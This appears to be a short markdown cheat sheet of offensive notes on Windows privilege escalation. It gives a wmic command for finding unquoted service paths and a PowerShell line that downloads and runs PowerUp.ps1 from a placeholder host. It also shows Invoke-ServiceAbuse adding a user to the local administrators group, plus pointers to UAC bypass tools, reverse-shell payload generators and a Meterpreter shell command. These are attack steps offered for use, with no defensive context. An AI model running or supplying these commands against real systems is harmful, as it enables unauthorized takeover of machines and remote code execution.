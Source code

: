 ## Windows

[[Unquoted Service Path]](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae) 

`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """ `

Unquoted Service Path: See if user has permissions to launch found executable...

`sc stop SERVICE`

`sc start SERVICE`

Unquoted Service Path: See if you can (M)odify designated folder

`icacls "FOLDERNAME"`

### Power Shell Priv Escalation

1. Create HTTP Server to host PowerUp.ps1

2. iex (New-Object Net.WebClient).DownloadString('http://IP/PowerUp.ps1')
 
3. Invoke-AllChecks

Add your user to Admins group, go UAC Bypass from there.
4. Invoke-ServiceAbuse -Name AppReadiness -Command "net localgroup administrators bob /add"


[[Bypass Uac]](https://github.com/hfiref0x/UACME)
[[UACME Hackersploit video]](https://www.youtube.com/watch?v=RXX0FHM9SEk)

# All
Generate Payloads

https://www.revshells.com/


https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master
sql injections, linux priv escalation, it has its all

## Meterpreter

create shell and check gcc version

`execute -f /bin/sh -i -c`

`gcc --version`
